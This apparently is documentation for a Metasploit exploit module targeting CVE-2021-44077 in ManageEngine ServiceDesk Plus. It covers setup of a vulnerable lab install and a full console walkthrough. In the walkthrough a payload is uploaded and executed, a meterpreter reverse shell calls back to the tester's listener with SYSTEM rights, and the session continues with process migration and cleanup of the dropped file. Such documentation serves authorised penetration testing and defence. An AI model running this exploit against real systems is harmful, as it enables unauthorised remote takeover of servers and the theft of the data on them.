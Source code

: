 ## Vulnerable Application

### Setup

Follow the [Installing ServiceDesk Plus] guide, in particular [Installation on Windows]. You can skip licensing.

1. Download [ManageEngine_ServiceDesk_Plus_64bit.exe]
1. Run the installer
1. Start the server
1. Hax

Note that build 11305 is not an exploitable build, so don't download that.

[Installing ServiceDesk Plus]: https://help.servicedeskplus.com/installing-servicedesk-plus
[Installation on Windows]: https://help.servicedeskplus.com/introduction/installation-and-getting-started.html
[ManageEngine_ServiceDesk_Plus_64bit.exe]: https://archives.manageengine.com/service-desk/11301/ManageEngine_ServiceDesk_Plus_64bit.exe

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

## Scenarios

### ServiceDesk Plus 11301 on Windows Server 2016

```
msf6 > use exploit/windows/http/manageengine_servicedesk_plus_cve_2021_44077
[*] Using configured payload windows/x64/meterpreter_reverse_tcp
msf6 exploit(windows/http/manageengine_servicedesk_plus_cve_2021_44077) > options

Module options (exploit/windows/http/manageengine_servicedesk_plus_cve_2021_44077):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter_reverse_tcp):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   EXITFUNC    process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   EXTENSIONS                   no        Comma-separate list of extensions to load
   EXTINIT                      no        Initialization strings for extensions
   LHOST                        yes       The listen address (an interface may be specified)
   LPORT       4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Dropper


msf6 exploit(windows/http/manageengine_servicedesk_plus_cve_2021_44077) > set rhosts 172.16.57.222
rhosts => 172.16.57.222
msf6 exploit(windows/http/manageengine_servicedesk_plus_cve_2021_44077) > set lhost 172.16.57.1
lhost => 172.16.57.1
msf6 exploit(windows/http/manageengine_servicedesk_plus_cve_2021_44077) > run

[*] Started reverse TCP handler on 172.16.57.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. /RestAPI/ImportTechnicians is present.
[*] Uploading msiexec.exe
[+] Successfully uploaded msiexec.exe
[*] Executing msiexec.exe
[!] Yo, don't forget to clean up ..\bin\msiexec.exe
[*] Meterpreter session 1 opened (172.16.57.1:4444 -> 172.16.57.222:50095 ) at 2021-12-23 11:28:47 -0600

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-PRMQDT3BCJI
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > pwd
C:\Program Files\ManageEngine\ServiceDesk\site24x7
meterpreter > migrate -N spoolsv.exe
[*] Migrating from 4816 to 1728...
[*] Migration completed successfully.
meterpreter > rm 'C:\Program Files\ManageEngine\ServiceDesk\site24x7\..\bin\msiexec.exe'
meterpreter >
```
